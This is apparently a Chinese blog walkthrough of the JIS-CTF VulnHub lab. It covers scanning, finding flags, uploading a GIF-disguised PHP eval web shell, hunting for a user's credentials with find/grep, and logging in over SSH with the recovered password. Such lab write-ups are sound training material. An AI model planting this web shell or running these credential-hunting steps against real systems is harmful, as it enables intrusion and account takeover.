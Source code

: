 ```yaml
---
layout: post
title: JIS-CTF
subtitle: JIS-CTF
date: 2023-07-07 16:25
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```


## 环境搭建

[Vuluhub 靶场 IP 问题 - Kyon-H Blog](https://blog.kyon.xin/2025/07/01/Vuluhub%E9%9D%B6%E5%9C%BAIP%E9%97%AE%E9%A2%98/)

## 信息搜集

![Pasted%20image%2020250707170751.png](https://img.ghostliner.top/wqFpa0.png)

**发现主机：192.168.163.133**

```shell
nmap -T4 -A -p- 192.168.163.133
```

![Pasted%20image%2020250707170908.png](https://img.ghostliner.top/UVd7lU.png)

扫描站点发现`robots.txt`
![Pasted%20image%2020250707171104.png](https://img.ghostliner.top/G72JfN.png)

## 渗透测试

访问 flag 目录获取到 flag1
![Pasted%20image%2020250707171227.png](https://img.ghostliner.top/ntcdCN.png)

访问 admin_area，获取到 flag2 和 admin 密码
![Pasted%20image%2020250707180402.png](https://img.ghostliner.top/ii5xyJ.png)

登录成功，发现文件上传，尝试上传木马
![image.png](https://img.ghostliner.top/s1I617.png)

```php
GIF89a
<?php eval($_POST['code']);?>
```

上传成功，访问`/uploaded_files/shell.php`成功，蚁剑连接。
发现 flag.txt 为空，发现 hint.txt，获取到 flag3

![image.png](https://img.ghostliner.top/X0AV5L.png)

根据提示，发现 flag.txt 所属用户 `technawi`

![image.png](https://img.ghostliner.top/GJ4LGS.png)

找到该用户家目录，未发现

![image.png](https://img.ghostliner.top/qX3FEC.png)

```shell
find / -type f -name "*technawi*" 2>/dev/null # 未发现
grep -r technawi /etc/* 2>/dev/null
```

![image.png](https://img.ghostliner.top/mYqrAr.png)

查看 `/etc/mysql/conf.d/credentials.txt`, `technawi`, `3vilH@ksor`

![image.png](https://img.ghostliner.top/MV0Zgb.png)

ssh 登录，查看 `flag.txt`

![image.png](https://img.ghostliner.top/bkUWqU.png)
